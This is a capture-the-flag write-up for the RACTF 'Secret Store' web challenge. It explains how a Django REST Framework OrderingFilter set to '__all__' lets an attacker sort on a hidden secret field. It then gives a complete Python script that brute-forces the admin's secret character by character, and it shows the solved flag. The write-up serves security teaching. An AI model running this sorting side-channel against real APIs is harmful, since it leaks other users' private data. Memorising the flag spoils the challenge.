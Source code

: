 ## RACTF - Secret Store [ 300 points ] (6 solves)
**Description**

> How many secrets could a secret store store if a store could store
> secrets?

## General overview
The web app is a Django application where you can register/login as a user and save a secret text which shouldn't be visible to anyone else except you in your home page when you login. Other users can also post their own secret text and the goal is to find a way to stole the secret from other users in order to read the flag from the admin.
## Code audit
There is a rest framework implemented with [djangorestframework](https://pypi.org/project/djangorestframework/) for the secret text that users are posting. We can peek a look at his views and models inside the secret folder where the source is located. We can see the secret's model inside secret/models.py:

    class  Secret(models.Model):
		value  =  models.CharField(max_length=255)
		owner  =  models.OneToOneField(User, on_delete=CASCADE)
		last_updated  =  models.DateTimeField(auto_now=True)
		created  =  models.DateTimeField(auto_now_add=True)
And there is a model serializer for the model Secret inside secret/serializers.py:

    class  SecretSerializer(serializers.ModelSerializer):
		class  Meta:
			model  =  Secret
			fields  = ["id", "value", "owner", "last_updated", "created"]
			read_only_fields  = ["owner", "last_updated", "created"]
			extra_kwargs  = {"value": {"write_only": True}}

		def  create(self, validated_data):
			validated_data["owner"] =  self.context["request"].user
			if  Secret.objects.filter(owner=self.context["request"].user):
				return  super(SecretSerializer, self).update(Secret.objects.get(owner=self.context['request'].user), validated_data)
			return  super(SecretSerializer, self).create(validated_data)
From the serializer we can see that the fields owner, last_updated, created and (implicitly) the id are read only, and the value field is write only.
Inside secret/views.py we can see the views of the web app and what they are doing:

    class  SecretViewSet(viewsets.ModelViewSet):
		queryset  =  Secret.objects.all()
		serializer_class  =  SecretSerializer
		permission_classes  = (IsAuthenticated  &  IsSecretOwnerOrReadOnly,)
		filter_backends  = [filters.OrderingFilter]
		ordering_fields  =  "__all__"

	class  RegisterFormView(CreateView):
		template_name  =  "registration/register.html"
		form_class  =  UserCreationForm
		model  =  User
		success_url  =  "/"

	def  home(request):
		if  request.user.is_authenticated:
			secret  =  Secret.objects.filter(owner=request.user)
		if  secret:
			return  render(request, "home.html", context={"secret": secret[0].value})
		return  render(request, "home.html")

We can see the home page view which just asks the database if a logged in user has a secret and displays it to him if it does, inside the home page. Apart from this view we can see that is implemented a ViewSet which is basically an easy automated way to query the database and display to the user the results. In our case we can get a json with all read only fields of the Secret serializer for example visiting [http://challange/api/secret?format=json](https://www.django-rest-framework.org/api-guide/format-suffixes/) we get as a result:

    [{"id":1,"owner":1,"last_updated":"2021-08-04T21:55:59.750611Z","created":"2021-08-04T21:55:32.221867Z"},{"id":2,"owner":8,"last_updated":"2021-08-13T20:16:05.306976Z","created":"2021-08-13T20:16:05.307065Z"},{"id":3,"owner":12,"last_updated":"2021-08-13T22:17:15.718312Z","created":"2021-08-13T21:41:25.913725Z"},{"id":4,"owner":113,"last_updated":"2021-08-14T16:08:40.385043Z","created":"2021-08-14T16:07:45.011707Z"},{"id":5,"owner":111,"last_updated":"2021-08-14T17:50:00.910477Z","created":"2021-08-14T17:50:00.910544Z"},{"id":6,"owner":126,"last_updated":"2021-08-15T08:23:42.895236Z","created":"2021-08-15T08:04:32.918062Z"},{"id":7,"owner":129,"last_updated":"2021-08-15T08:53:06.531769Z","created":"2021-08-15T08:53:06.531818Z"},{"id":8,"owner":133,"last_updated":"2021-08-15T17:48:13.303999Z","created":"2021-08-15T12:34:30.069458Z"},{"id":9,"owner":134,"last_updated":"2021-08-15T17:17:50.206823Z","created":"2021-08-15T17:17:33.212906Z"}]
Reading carefully django's rest framework documentation for [OrderingFilter](https://www.django-rest-framework.org/api-guide/filtering/#orderingfilter) we can see that we can supply an ordering query parameter to filter (sort) out our json output to our needs. Reading further the documentation we spot the following line:

> If you are confident that the queryset being used by the view doesn't contain any sensitive data, you can also explicitly specify that a view should allow ordering on _any_ model field or queryset aggregate, by using the special value `'__all__'`.

Which is exactly our case :), our own little SecretViewSet specifies that we can filter by any field our query, so basically we can post a secret with initial value `ractf{` , order the output by `values` and compare our own secret value with the admin's secret value which i assume is the user with id=1 and owner=1.
## Exploit

```python
import requests
from bs4 import BeautifulSoup
import json
import string

def find_owner(orderings, owner):
    for i, ordering in enumerate(orderings):
        if ordering['owner'] == owner:
            return i
    
    #Owner not found in orderings
    return None

session = requests.Session()
url = 'http://challenge:port' # Change this
login_url = f'{url}/auth/login/'
logout_url = f'{url}/auth/logout/'
api_secret_url = f'{url}/api/secret/'

r = session.get(url = login_url)
parse = BeautifulSoup(r.text, "html.parser")

# Extract csrf token to be able to login
csrf_token = parse.find_all('input')[0]['value']

# You have to register agent007 first.
post_data = {
    'csrfmiddlewaretoken': csrf_token,
    'username': 'agent007',
    'password': 'SecretPassword007.'
}

flag = r'ractf{' # Final flag ractf{data_exf1l_via_s0rt1ng_0c66de47}

# Sign in to agent007
r = session.post(url  = login_url, 
                 data = post_data)

# Let's save some secrets ;)
r = session.post(url = api_secret_url, 
                 json = {
                     'value': flag
                 }, 
                 headers = {
                     'X-CSRFToken': session.cookies['csrftoken']
                 }
)

print(f'Status code === {r.status_code}')
_, owner, _, _ = json.loads(r.text).values() # Get our owner id in order to be able to recognize our position in the final orderings

# When positive means we surpassed the flag value
# When negative means we need to go forward
# When from negative becomes positive it means the previous character was the correct character of the nth pos of the flag
cmp = 0

alphabet = string.digits + ':_`' + string.ascii_letters + '}~'
while not '}' in flag:
    # Iterate through every character in the alphabet
    # Post the flag appended with this character as our little secret and compare the results to bruteforce the characters of the flag
    for c in alphabet:
        r = session.post(url = api_secret_url, 
                    json = {
                        'value': flag + c
                    }, 
                    headers = {
                        'X-CSRFToken': session.cookies['csrftoken']
                    }
        )
        
        orderings = json.loads(
            session.get(url = api_secret_url + '?format=json&ordering=value').text
        )
        
        orderings_user_idx = find_owner(orderings, owner)
        orderings_flag_idx = find_owner(orderings, owner = 1)
        cmp = orderings_flag_idx - orderings_user_idx
        if cmp < 0:
            prev_c = chr(ord(c)-1)
            print(flag + prev_c)
            flag += prev_c
            break
```

